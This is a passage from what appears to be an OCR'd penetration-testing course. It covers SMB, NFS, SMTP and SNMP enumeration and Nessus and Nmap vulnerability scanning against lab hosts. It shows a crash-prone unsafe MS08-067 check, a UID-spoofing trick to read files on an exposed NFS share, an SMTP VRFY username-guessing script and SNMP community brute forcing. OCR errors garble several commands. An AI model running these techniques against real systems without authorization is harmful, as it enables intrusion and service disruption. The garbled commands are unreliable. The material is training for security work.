-rw-r--r-- 1 root root  4840 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12 09:29 /usr/share/nmap/scripts/smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12 09:29 /usr/share/nmap/scripts/smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12 09:29 /usr/share/nmap/scripts/smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12 09:29 /usr/share/nmap/scripts/smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12 09:29 /usr/share/nmap/scripts/smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12 09:29 /usr/share/nmap/scripts/smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12 09:29 /usr/share/nmap/scripts/smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12 09:29 /usr/share/nmap/scripts/smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12 09:29 /usr/share/nmap/scripts/smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12 09:29 /usr/share/nmap/scripts/smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12 09:29 /usr/share/nmap/scripts/smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12 09:29 /usr/share/nmap/scripts/smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12 09:29 /usr/share/nmap/scripts/smb-webexec-exploit.nse
```

Here we find several interesting Nmap SMB NSE scripts that perform various tasks such as OS discovery and enumeration via SMB.

Let's try the smb-os-discovery module:

```
kali@kali:~$ nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
Nmap scan report for 10.11.1.227
Host is up (0.57s l atency) .
PORT    STATE SERVICE
139/tcp open  netbios-ssn
Host script results:
| smb- os- discovery :
| OS: Windows 2000 (Windows 2000 LAN Manager)
| OS CPE: cpe:/o :mi c rosoft:windows_2000 :: -
| Computer name: s rv2
| NetBIOS computer name: SRV2
| Workgroup: WORKGROUP
...
```

This particular script identified a potential match for the host operating system.

To check for known SMB protocol vulnerabilities, we can invoke one of the smb-vuln NSE scripts. We will take a look at smb-vuln-ms08-067, which uses the --script-args option to pass arguments to t he NSE script.

*Please Note: If we set the script parameter unsa'Fe=l , the scripts that will run are almost (or totally) guaranteed to crash a vulnerable system. Needless to say, exercise extreme caution when enabling this argument, especially when scanning production systems.*

```
kali@kali:~$ nmap -v -p 139, 445 --script=smb-vuln-ms08-067 --script-args=unsafe=l 10.11.1.5
Starting Nmap 7.70 ( https: / /nmap.org ) at 2019- 03- 04 11:27 EST
NSE: Loaded l scripts for scanning.
NSE: Script Pre- scanni ng .
Scanning 10.11.1.s [2 port s]
Completed NSE at 00 : 04 , 17.39s elapsed
Nmap scan r eport fo r 10.11.1.5
Host is up (0 . 17s latency).
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00 : 50:56:AF:02 :91 (VMware)
Host script results:
| smb-vul n-ms08-067:
| 	VULNERABLE:
| 	Microsoft Windows system vulnerable to remote code execution (MS08-067)
| 	State: VULNERABLE
| 	IDs: CVE:CVE-2008-4250
|		The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2
|		Vista Gold and SPl, Server 2008, and 7 Pre-Beta allows remote attackers to
|		code via a crafted RPC request that triggers the overflow during path cano
|	Disclosure date: 2008-10-23
|	References:
|		https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|		https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
...
```

### NFS Enumeration

Network File System (NFS)  is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage.

NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it's not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.

#### Scanning for NFS Shares

Both Portmapper  and RPCbind run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service. We can scan these ports with nmap using the following syntax:

```
kali@kali:~$ nmap -v -p 111 10.11.1.1-254
```

We can use NSE scripts like rpcinfo to fi nd services that may have registered with rpcbind:

```
kal i@kali:~$ nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
Nmap scan report for 10.11.1.72
Host is up (0.0055s latency).
PORT 	STATE SERVICE
111/tcp open  rpcbind
rpcinfo:
program version		port/proto	service 
100000  2,3,4		111/tcp		rpcbind
100000  2,3,4 		111/udp		rpcbind
100003  2,3,4		2049/tcp	nfs
100003  2,3,4		2049/udp	nfs
100005  1,2,3		50255/udp	mountd
100005  1,2,3		56911/tcp	mountd
100021  1,3,4		40160/udp	nlockmgr
100021  1,3,4		57765/tcp	nlockmgr
100024  1			34959/udp	status
100024  1			46908/tcp	status
100227  2,3			2049/tcp	nfs_acl
100227  2,3			2049/udp	nfs_acl	
...
```

#### Nmap NFS NSE Scripts

Once we find NFS running, we can collect additional information, en umerate NFS services, and discover additional services using NSE scripts found in the /usr/share/nmap/scripts directory:

```
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.12
...
Nmap scan report for 10,11,1,72
PORT
STATE SERVI CE
111/tcp open rpcbind
| nfs-showmount:
|_  /home 10.11.0.0/255.255.0.
```

In this case, the entire /home directory is being shared and we can access it by mounting it on our Kali virtual machine. We will use mount to do this, along with -o nolock to disable file locking, which is often needed for older NFS servers:

```
kali@kali:-$ mkdir home

kali@kali:~$ sudo mount -o nolock 10.11.1.12:/home -/home/

kali@kali:~$ cd home/ && ls
jenny joe45 john marcus ryuu
```

Based on this file listing, we can see that there are a few home directories for local users on the remote machine. Digging a blt deeper, we find a filename that catches our attention, so we try to view it:

```
kali@kali:-/home$ cd marcus
kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09: 16 •
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1814 1814
48 Jun 10 89:16 creds.txt

kali@kali:-/home/marcus$ cat creds.txt
cat: creds.txt: Permission denied
```

It appears we do not have permission to view this file. Taking a closer look at the file permissions, we can see that its owner has a UUID of 1014, and also read (r), write (w), and execute (x) permissions on it. What can we do with this information? Since we have complete access to our Kali machine, we can try to add a local user to it using the adduser command, change its UUID to 1014, su to that user, and then try  ccessing the file again:

```
kali@kali:-/home/stefan$ sudo adduser pwn
Adding user 'pwn' ...
Adding new group 'pwn' (1001) .••
Adding new user 'pwn' (1001) with group 'pwn' ...
Creating home directory '/home/pwn'
Copying files from '/etc/skel' ..•
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default
Full Name []:
Room Number [] :
Work Phone []:
Home Phone [] :
Other[]:
Is the information correct? [V/n]
```

Based on the output above, we can see that the new user has a UUID of 1001, which is not really what we need. We ca n change it to 1014 using sed and confirm the change took place. The -i option is used to replace the file in-place and the -e option executes a script. In this case, that happens to be 's/1001/1014/g ', which will globally replace the UUID in the /etc/passwd file:

```
kali@kali:-/home/marcus$ sudo sed -i -e 's/1001/1014/g' /etc/passwd

kali@kali:~/home/marcus$ cat /etc/passwd | grep pwn
pwn:x :1014:1014 :,,,:/home/pwn:/bin/bash
```

So far so good. Let's try to su to the newly added pwn user, verify that our UUID has indeed changed, and then try accessing that file again. We will use the su command to change the current login session's owner. Then, we will use id to display our current user ID. Finally, we wi ll try to access the file again:

```
kali@ka1i:~/home/marcus$ su pwn

pwn@ka1i:/root/home/marcus$ id
uid=1014(pwn) gid=1014 groups=1014

pwn@ka1i:/root/home/marcus$ cat creds.txt
Not what you are looking for, try harder!!! :0)
```

### SMTP Enumeration

We can also gather information about a host or network from vulnerable mail servers. The Simple Mail Transport Protocol (SMTP)  supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, w hile EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, w hich is useful informatfon during a penetration test. Consider this example:

```
kali@ka1i:~$ nc -nv 10.11.1.211 25
(UNKNOWN) (10.11.1.217] 25 (smtp) open
220 hot1ine.localdomain ESMTP Postfix
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient add ress rejected: User unknown in local recipient table
^C
```

Notice how the success and error messages differ. The SMTP server happily verifies that the user exists. Thf s procedure can be used to help guess valid usernames in an automated fashion. Consider the following Python script that opens a TCP socket, connects to the SMTP server, and issues a VRFY command for a given username:

```
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 2:
	print "Usage: vrfy.py <username>"
	sys.exit(0)
	
# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect= s.connect(('10.11.1.217',25))

# Receive the banner
banner= s.recv(1024)

print banner

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result= s.recv(1024)

print result

# Close the socket
s.close()
```

### SNMP Enumeration

Over the years, we have often found that the Simple Network Management Protocol (SNMP) is not well-understood by many network administrators. Thfs often results fn SNMP misconfigurations, which can result in significant information leakage.

SNMP is based on UDP, a simple, stateless protocol, and is therefore susceptible to IP spoofing and replay attacks. In addition, t he commonly used SNMP protocols 1, 2, and 2c offer no traffic encryption, meaning that SNMP information and credentials can be easily intercepted over a local network. Traditional SNMP protocols also have weak authentication schemes and are commonly left configured with default public and private community strings.

Now, consider that all of the above applies to a protocol, which by definition is meant to NManage the NetworkN. For all these reasons, SNMP is another one of our favorite enumeration protocols.

#### The SNMP MIB Tree

The SNMP Management Information Base (MIB) is a database containing information usually related to network management. The database is organized like a tree. w here branches represent different organizations or network functions. The leaves of the tree (final endpoints) correspond to specific variable values that can then be accessed, and probed, by an external user. The IBM Knowledge Center 217 contains a wealth of information about the MIB tree.

For example, the following MIB values correspond to specific Microsoft Windows SNMP parameters and contains much more than network-based information:

| 1.3.6.1 .2.1 .25.1.6.0  | System Processes |
| ----------------------- | ---------------- |
| 1.3.6.1.2.1.25.4.2.1.2  | Running Programs |
| 1.3.6.1 .2.1.25.4.2.1.4 | Storage Units    |
| 1.3.6.1.2.1.25.6.3.1 .2 | Software Name    |
| 1.3.6.1.4.1.77.1.2.25   | User Accounts    |
| 1.3.6.1.2.1.6.13.1.3    | TCP Local Ports  |
|                         |                  |

#### Scanning for SNMP

##### NMAP

To scan for open SNMP ports, we can run nmap as shown in the example that follows. The -sU option is used to perform UDP scanning and t he --open option is used to limit the output to only display open ports:

```
kali@kali:~$ sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
Starting Nmap 7.70 ( https://nmap.org) at 2019-05-01 06:26 MDT
Nmap scan report for 10.11.1.7
Host is up (0.080s latency).
PORT    STATE SERVICE
161/udp openl filtered snmp
MAC Address: 00:50:56:89:lA:CD (VMware)

Nmap scan report for 10.11.1.10
Host is up (0.080s latency).

PORT    STATE  SERVICE
161/udp openl  filtered snmp
MAC Address: 00:50:56:93:4E:DC (VMware)
...
```


##### onesixtyone

Alternatively, we can use a tool such as onesixtyone, which will attempt a brute force attack against a list of IP add resses. First we must build text files containing community strings and the IP addresses we wish to scan:

```
kali@kali:~$ echo public > community
kali @kali: ~$ echo private>> community
kali @kali:-$ echo manager >> community

kali@kali:~$ for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips

kali@kali:~$ onesixtyone -c community -i ips
Scanning 254 hosts, 3 communities
10.11.1.14 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Soft
wa re: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)
10.11.1.13 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Soft
wa re: Wi ndows 2000 Version 5.1 (Build 2600 Uniprocessor Free)
10.11,1.22 [public] Linux barry 2.4.18-3 #1 Thu Apr 18 07:37:53 EDT 2002 i686
...
```

#### Windows SNMP Enumeration Example

We can probe and query SNMP values using a tool such as snmpwalk provided we at least know
the SNMP read-only community string, which in most cases is "public".

##### Enumerating the Entire MIB Tree

Using some of the MIB values provided in Listing , we can attempt to enumerate their corresponding values. Try out the following examples against a known machine in the labs, which has a Windows SNMP port exposed wit h the community string "public". This command enumerates the entire MIB tree using the -c option to specify the community string, and -v to specify the SNMP version number as well as the -t 10 to increase the timeout period to 10 seconds:

```
kali@kali:~$ snmpwalk -c public -v1 -t 10  10.11.1.14
iso.3.6.1.2.1.1.1.0 = STRI NG: "Hardwa re: x86 Family 6 Model 12 Stepping 2 AT/AT COMPAT
IBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3,1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (2005539644) 232. days, 2:56:36.44
iso.3.6.1.2.1.1.4.0 = 1111
...
```

##### Enumerating Windows Users

This example enumerates the Windows users:

```
kali@kali:~$ snmpwalk -c public -vl 10.11.1.14 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.3.98.111.98 = STRING: "bob"
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest''
iso.3.6.1.4.1.77.1.2.25.1.1.8.73.85.83.82.95.66.79.66 = STRING: " IUSR_BOB"
```

##### Enumerating Running Windows Processes

This example enumerates the running Windows processes:

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "System Idle Pr-ocess "
iso.3.6.1.2.1.25.4.2.1.2.4 = STRING: "System"
iso.3.6.1.2.1.25.4.2.1.2.224 = STRING: "smss.exe"
iso.3.6.1.2.1.25.4.2.1.2.324 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.364 = STRING: "wininit.exe"
iso.3.6.1.2.1.25.4.2.1.2.372 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.420 = STRING: "winlogon.exe"
iso.3.6.1.2.1.25.4.2.1.2.448 = STRING: "services.exe"
iso.3.6.1.2.1.25.4.2.1.2.480 = STRING: "lsass.exe"
iso.3.6.1.2.1.25.4.2.1.2.488 = STRING: "lsm.exe"
...
```

##### Enumerating Open TCP Ports

This example enumerates the open TCP ports:

```
kali @kali:~$ snmpwatk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
iso.3.6.l.2.l.6.13.l.3.0.0.0.0.21.0.0.0.0.18646 = INTEGER: 21
iso.3.6.1.2.l.6.13.1.3.0.0.0.0.80.0.0.0.0.45310 = INTEGER: 80
iso.3.6.l.2.l.6.13.l.3.0.0.0.0.135.0.0.0.0.24806 = INTEGER: 135
iso.3.6.1.2.l.6.13.l.3.0.0.0.0.443.0.0.0.0.45070 = INTEGER: 443
...
```

##### Enumerating Installed Software

This example enumerates installed software:

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
iso.3.6.1.2.1.25.6.3.1.2.1 = STRING: "LiveUpdate 3.3 (Symantec Corporation)"
iso.3.6.1.2.1.25.6.3.1.2.2 = STRING: "WampServer 2.5"
iso.3.6.1.2.1.25.6.3.1.2.3 = STRING: "VMware Tools"
iso.3.6.1.2.1.25.6.3.1.2.4 = STRING: "Microsoft Visual C++ 2008 Redistributable - x86
9.0.30729.4148"
iso.3.6.1.2.1.25.6.3.1.2.5 = STRING: "Microsoft Visual C++ 2012 Redistributable (x86)
- 11.0.61030"
```


## Vulnerability Scanning

Vulnerability discovery is an integral part of any security assessment. While we prefer manual,
specialized tasks that leverage our knowledge and experience during a security audit, automated
vulnerability scanners are nonetheless invaluable when used in proper context. In this module, we
will provide an overview of automated vulnerability scanning, discuss its various considerations,
and focus on both Nessus and Nmap as indispensable tools.

### Vulnerability Scanning Overview and Considerations

Before diving directly into our tools, we must take some time to discuss the process of vulnerability
scanning, outline basic considerations regarding both automated and manual scanning, and
discuss both critical nuances and best practices.

#### How Vulnerability Scanners Work

Vulnerability scanner implementations vary, but generally follow a standard workflow. Most
automated scanners will:
1. Detect if a target is up and running.
2. Conduct a full or partial port scan, depending on the configuration.
3. Identify the operating system using common fingerprinting techniques.
4. Attempt to identify running services with common techniques such as banner grabbing, service behavior identification, or file discovery.
5. Execute a signature-matching process to discover vulnerabilities.

#### Vulnerability Scanning with Nessus

As we move beyond theory and begin looking at tools, we will first focus on Nessus, a popular vulnerability scanner that supports a staggering 130,000 plug-ins (vulnerability checks) at the time of this writing. While originally developed as an open source application, in 2005 the source was closed. 229 The change to a closed source model resulted in forks of the open source project. and to the release of OpenVAS. 230

There are many commercial and open source vulnerability scanners with various strengths and
weaknesses. However, Nessus is a quite capable industry standard, and the free "Essentials"
version allows us to scan up to 16 IPs. It gives us insight into how to use the full commercial version
without time limits or other constraints. The overall concepts discussed in this section will generally
apply to just about any other commercial scanner as well.

##### Installing Nessus

For the purposes of this module, please note that you will need to install Nessus on the VM you are using to connect to the PWK labs, as an internet connection will be necessary to activate the Nessus instance, as well as to download the plugins. It is also important to mention that vulnerability scanners are generally resource-intensive. Many of them suggest minimum requirements that include at least 2 CPU cores as well as 8GB of RAM. These resource requirements won't be necessary for our example.

Before beginning the installation, we should update Kali's package lists and upgrade to the latest
versions of existing packages:

```
kali@kali:~$ sudo apt update && sudo apt upgrade
```

Although Nessus is not available in the Kali repositories, we can manually download the 64-bit .deb file for Kali from the Tenable website: https://www.tenable.com/downloads/nessus.

We can view the SHA256 checksum value by clicking the "Checksum" link on the download page (Figure 44) and validate the downloaded file's checksum with sha256sum:

```
kali@kali:~$ sha256sum Nessus-8.13.0-ubuntu910_amd64.deb 
30a9e896cc84b7bc1eccf7f45b89f707f5e4d20fa96451daa365b9634fd1ddd7  Nessus-8.13.0-ubuntu910_amd64.deb
```

The value displayed after running sha256sum and the value displayed on the website should match. Note that this checksum is version-dependent and may not match what is shown in the figures above.

Since our checksums match, we can install the package with apt:

```
kali@kali:~$ sudo apt install ./Nessus-x.x.X.deb
Preparing to unpack ••• /kali/nessus/Nessus-X.X.X.deb
Unpacking nessus (X.X.X) ..•
Setting up nessus (X.X.X) .••
Unpacking Nessus Scanner Core Components ...
- You can start Nessus Scanner by typing /etc/init.d/nessusd start
- Then go to https://kali:8834/ to configure your scanner
```

Once Nessus is running, we can launch a browser and navigate to https://localhost:8834. We will
be presented with a certificate error indicating an unknown certificate issuer, but this is expected
due to the use of a self-signed certificate.


##### Defining Targets

Once Nessus is installed, it's time to set up our first scan. To begin, we simply click the New Scan button.


Nessus supports a number of scan types, including:

- Basic Network Scan: Generic scan with various checks that are suitable to be used against
  various target types.

- Credentialed Patch Audit: Authenticated scan that enumerates missing patches.

- Web Application Tests: Specialized scan for discovering published vulnerabilities in Web
  Applications.

- Spectre and Meltdown: Targeted scan for the Spectre 231 and Meltdown 232 vulnerabilities.

We recommend investigating these scan types, but for this introductory section, we will focus on a   standard, basic network scan, which we can launch by clicking on Basic Network Scan.

##### Unauthenticated Scanning With Nessus

During the configuration of the scan definition, we did not configure any credentials, which implies
that this scan will run unauthenticated.

##### Authenticated Scanning With Nessus

We can generate more detailed information and reduce false positives by performing an
authenticated scan, which requires valid target credentials.

##### Scanning with Individual Nessus Pfugins

By default, Nessus will enable a number of plugins behind-the-scenes when running a default
template. While this is certainly useful in many scenarios, we can also fine-tune our options to, for
example, quickly run a single plugin. We can use this feature to validate a previous finding or to
quickly discover all the targets vulnerable to a specific exploit in an environment.

For this example, we will run the NFS Exported Share Information Oisc/osure 234 plugin against the
"Beta· host in the lab. We can use this plugin to gather information from the RPC server (port 111)
and validate if the target is exporting any NFS shares.

#### Vulnerability Scanning with NMAP

As an alternative to Nessus, we can also use the Nmap Scripting Engine (NSE) to perform automated vulnerability scans. While NSE is not a full-fledged vulnerability scanner, it does have a respectable library of scripts that can be used to detect and validate vulnerabilities. NSE scripts are written in Lua  and range in functionality from brute force and authentication to detecting and exploiting vulnerabilities. For these purposes we will focus on the scripts in the "vuln" and "exploit" categories, as the former detects a vulnerability and the latter attempts to exploit it. 

However, there is overlap between these categories and some ·vuln" scripts may essentially run stripped-down exploits. For this reason, scripts are also further categorized as "sate· or "intrusive· and we should take great care when executing the latter because they may crash a remote service or take down the target

*Never run NSE scripts blindly. Take time to inspect them to understand what they do before running them, and test on your own targets whenever possible.*

On Kali, the NSE scripts can be found in the /usr/share/nmap/scripts/ directory. Opening any of the *.nse files in a text editor shows the source of each script in a simple human-readable format. Take time to review some of the NSE scripts to get familiar with the format and the types of checks these scripts perform.

This folder also contains a script.db file that serves as an index to all of the scripts. It also categorizes each of the Nmap scripts. We could, for example, use the file to grep for scripts in the ·vuln" and ·exploit" categories, as shown in Listing 278:

```
kali@kali:~$ cd /usr/share/nmap/scripts

kali@kali:~$ head -n 5 script.db                         
Entry { filename = "acarsd-info.nse", categories = { "discovery", "safe", } }
Entry { filename = "address-info.nse", categories = { "default", "safe", } }
Entry { filename = "afp-brute.nse", categories = { "brute", "intrusive", } }
Entry { filename = "afp-ls.nse", categories = { "discovery", "safe", } }
Entry { filename = "afp-path-vuln.nse", categories = { "exploit", "intrusive", "vuln", } }

kali@kali:~$ cat script.db| grep '"vuln"\|"exploit"' 
Entry { filename = "afp-path-vuln.nse", categories = { "exploit", "intrusive", "vuln", } }
Entry { filename = "broadcast-avahi-dos.nse", categories = { "broadcast", "dos", "intrusive", "vuln", } }
Entry { filename = "clamav-exec.nse", categories = { "exploit", "vuln", } }
Entry { filename = "distcc-cve2004-2687.nse", categories = { "exploit", "intrusive", "vuln", } }
Entry { filename = "dns-update.nse", categories = { "intrusive", "vuln", } }
Entry { filename = "firewall-bypass.nse", categories = { "intrusive", "vuln", } }
Entry { filename = "ftp-libopie.nse", categories = { "intrusive", "vuln", } }
Entry { filename = "ftp-proftpd-backdoor.nse", categories = { "exploit", "intrusive", "malware", "vuln", } }
Entry { filename = "ftp-vsftpd-backdoor.nse", categories = { "exploit", "intrusive", "malware", "vuln", } }
Entry { filename = "ftp-vuln-cve2010-4221.nse", categories = { "intrusive", "vuln", } }
Entry { filename = "http-adobe-coldfusion-apsa1301.nse", categories = { "exploit", "vuln", } }
Entry { filename = "http-aspnet-debug.nse", categories = { "discovery", "vuln", } }
Entry { filename = "http-avaya-ipoffice-users.nse", categories = { "exploit", "vuln", } }
Entry { filename = "http-awstatstotals-exec.nse", categories = { "exploit", "intrusive", "vuln", } }
Entry { filename = "http-axis2-dir-traversal.nse", categories = { "exploit", "intrusive", "vuln", } }
Entry { filename = "http-barracuda-dir-traversal.nse", categories = { "auth", "exploit", "intrusive", } }
Entry { filename = "http-coldfusion-subzero.nse", categories = { "exploit", } }
```

Let's try to use the NSE to detect a vulnerability. For this example, we will use --script vuln to
run all scripts in the "vuln" category against a target in the PWK labs:

```
kali@kali:~$ sudo nmap --script vuln 192.168.0.196
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-17 04:07 EST
Stats: 0:00:30 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 83.33% done; ETC: 04:08 (0:00:06 remaining)
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).

```


## Web Application Attacks

In this module, we will focus on the identification and exploitation of common web application vulnerabilities. Modern development frameworks and hosting solutions have simplified the process of building and deploying web-based applications. However, these applications usually expose a large attack surface because of a lack of mature application code, multiple dependencies, and insecure server configurations.

Web applications can be written in a variety of programming languages and frameworks, each of which can introduce specific types of vulnerabilities. However, the most common vulnerabilities are similar in concept, regardless of the underlying technology stack. 

In this module, we will discuss web application vulnerability enumeration and exploitation. Although the complexity of vulnerabilities and attacks vary, we will demonstrate the exploitation of several common web application vulnerabilities listed in the **OWASP Top 10 list**.  These attack vectors will serve as the basic building blocks used to construct more advanced attacks.

### Web Application Assessment Methodology

Before we begin discussing enumeration and exploitation, we will talk about the basic web application penetration testing methodology.

As a first step, we should gather information about the application. 

- What does the application do? 

- What language is it written in? 

- What server software is the application running on? 

The answers to these and other basic questions will help guide us towards our first (or next) potential attack vector.

As with many penetration testing disciplines, the goal of each attempted attack or exploit is to increase our permissions within t he application or pivot to another application or target. Each successful exploit along the way may grant access to new functionality or components within the application. We may need to successfully execute several exploits to advance from an unauthenticated user account access to any kind of shell on the system. 

Enumeration of new functionality is important each step of the way especially since attacks that previously failed may succeed in a new context. As penetration testers, we must continue to enumerate and adapt until we've exhausted all attack avenues or compromised the system.

### Web Application Enumeration

It is important to identify the components that make up a web application before attempting to bl indly exploit it. Many web application vulnerabilities are technology-agnostic. However, some exploits and payloads need to be crafted based on the technological underpinnings of the application, such as the database software or operating system. Before launching any attacks on a web application, we should attempt to discover the technology stack in use, which generally consists of the following components:

- Programming language and frameworks
- Web server software
- Database software
- Server operating system

There are several techniques that we can use to gather this information directly from the browser.
Most modern browsers include developer tools that can assist in the enumeration process. We will
be focusing on Firefox since it is the default browser in Kali Linux. However, most browsers include
similar developer tools.

#### Inspecting URLs

File extensions, which are sometimes a part of a URL, can reveal the programming language the application was written in. Some of these, like .php, are straightforward, but other extensions are more cryptic and vary based on the frameworks in use. For example, a Java-based web application might use .jsp, .do, or .html.

However, file extensions on web pages are becoming less common since many languages and frameworks now support the concept of routes, which allow developers to map a URI to a section of code. Applications leveraging routes use logic to determine what content is returned to the user and make URI extensions largely irrelevant.

#### Inspecting Page Content

Although URL inspection can provide some clues about the target web application, most context clues can be found in the source of the web page. The Firefox Debugger tool (found in the Web Developer menu or by pressing  **Ctrl  + Shift + K** displays the page's resources and content, which varies by application. The Debugger tool may display JavaScript frameworks, hidden input fields, comments, client-side controls within HTML, JavaScript, and much more.

To demonstrate this, we can open the Debugger while browsing www.megacorp.one:

#### Viewing Response Headers

We can also search server responses for additional information. There are two types of tools we can use to accomplish this task. The first type of tool is a proxy, which intercepts requests and responses between a cl ient and a webserver. We will explore proxies later in this module, but first we will explore the Network tool, launched from the Firefox Web Developer menu, to view HTTP requests and responses. This tool shows network activity that occurs after it launches, so we must refresh the page to see traffic.



#### Inspecting Sitemaps

Web applications can include sitemap files to help search engine bots crawl and index their sites. These files also include directives of which URLs not to crawl. These are usually sensitive pages or administrative consoles-exactly the sort of pages we are interested in. 

The two most common sitemap filenames are robots.txt and sitemap.xml.

For example, we can retrieve the robots.txt file from www.google.com with curl.:

```
kali@kali:~$ curl https://www.google.com/robots.txt
User-agent: *
Disallow: /search
Allow: /search/about
Allow: /search/static
Allow: /search/howsearchworks
Disallow: /sdch
Di sallow: /groups
Di sallow: /index.html?
Disallow: /?
Allow: /? hl =
...
```

#### Locating Administration Consoles

Web servers often ship with remote administration web applications, or consoles, which are accessible via a particular URL and often listening on a specific TCP port. 

Two common examples are the manager 241 application for Tomcat and phpMyAdmin 242 for MySQL
hosted at /manager/html and /phpmyadmin respectively.

While these consoles can be restricted to local access or may be hosted on custom TCP ports, we often find them externally exposed by default configurations. Regardless, as penetration testers we should check the default console locations, identified in the application server software documentation. In the following section, we will also demonstrate tools that can be used to automate the search for these consoles and in a later section we will demonstrate exploitation techniques.

### Web Application Assessment Tools

Once we have thoroughly explored a web application manually, we should consider using web application assessment tools to enumerate more information about the target.

There are a variety of tools that can aid in discovering and exploiting web application vulnerabilities, many of which come pre-installed in Kali. In this section, we will explore some of these tools including a few simple browser extensions and in a later section we wi ll shift our focus to manual vulnerability enumeration and exploitation.

*Automated tools can increase our productivity as penetration testers, but we must a/so understand manual exploitation techniques since tools will not a/ways be available in every situation and manual techniques offer greater flexibility and customization. Remember, tools and automation make our job easier. They don't do the job for us.*

#### DIRB

